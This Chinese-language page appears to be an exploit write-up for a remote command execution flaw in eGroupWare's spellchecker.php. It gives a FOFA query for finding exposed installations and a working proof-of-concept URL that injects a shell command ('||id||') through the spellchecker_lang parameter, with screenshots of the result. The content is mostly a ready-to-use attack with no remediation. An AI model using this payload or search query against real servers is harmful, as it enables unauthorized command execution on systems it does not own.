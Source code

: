 # eGroupWare spellchecker.php 远程命令执行漏洞

## 漏洞描述

*eGroupWare*是一个多用户，在以PHP为基础的API上的定制集为基础开发的，以WEB为基础的工作件套装，其中 spellchecker.php 文件中存在命令执行漏洞

## 漏洞影响

<a-checkbox checked>eGroupWare</a-checkbox></br>

## FOFA

<a-checkbox checked>app="EGROUPWARE-产品"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629087827840-2daaeca6-8c17-48dd-bbb4-5a7f4746b181.png)

验证POC

```bash
/egroupware/phpgwapi/js/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php?spellchecker_lang=egroupware_spellchecker_cmd_exec.nasl%7C%7Cid%7C%7C
```

![img](../../../.vuepress/public/img/1629088046554-f44013d6-babd-4708-bd9b-ce93b4fbd12a.png)

